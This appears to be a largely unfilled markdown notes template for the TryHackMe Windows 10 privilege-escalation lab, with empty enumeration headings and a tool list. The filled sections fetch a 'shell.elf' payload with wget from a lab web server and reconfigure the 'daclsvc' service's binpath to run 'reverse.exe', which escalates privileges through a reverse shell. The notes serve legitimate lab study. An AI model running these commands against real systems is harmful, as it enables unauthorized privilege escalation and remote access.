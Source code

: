 # 1. TEST SETUP/ENVIRONMENT

## TRYHACKME
```
https://tryhackme.com/room/windows10privesc
```


## FILE TRANSFER - WEB BASED
```
cd /var/www/html/priv_esc
python3 -m http.server
wget http://10.18.5.137:8000/shell.elf
```

## FILE TRANSFER - SMB BASED



# 2. MANUAL ENUMERATION 

## USERS
```

```

## HOSTNAME
```
hostname
```

## OS VERSION & ARCHITECTURE
```

```

## RUNNING PROCESS & SERVICES
```

```

## NETWORK INFORMATION 
```

```

## FIREWALL STATUS AND RULES
```

```

## SCHEDULED TASKS
```

```

## INSTALLED APPS & PATCH LEVELS
```

```

## READABLE/WRITABLE FILES AND DIRECTORIES
```

```

## UNMOUNTED DISKS
```

```

## DEVICE DRIVERS AND KERNEL MODULES
```

```

## BINARIES THAT AUTO ELEVATE
```

```

# 3. AUTOMATED ENUMERATION 

## WINPEAS
```

```




# 4. MISCONFIGURATIONS/VULNERABILITIES EXPLOITATION 

## CATEGORY "SERVICES" - INSECURE SERVICE PERMISSIONS
```
.\winPEASany.exe servicesinfo (powershell)
winPEASany.exe servicesinfo (cmd)

accesschk.exe /accepteula -uwcqv user daclsvc
sc qc daclsvc
sc config daclsvc binpath="\"C:\PrivEsc\reverse.exe\""
sc qc daclsvc
sc start daclsvc
```




zenmap
Kali Linux
vmware player
Kali Linux 
nessus
burpsuite
lightsoot
greenshot
7-zip
notepad++
visul studio code







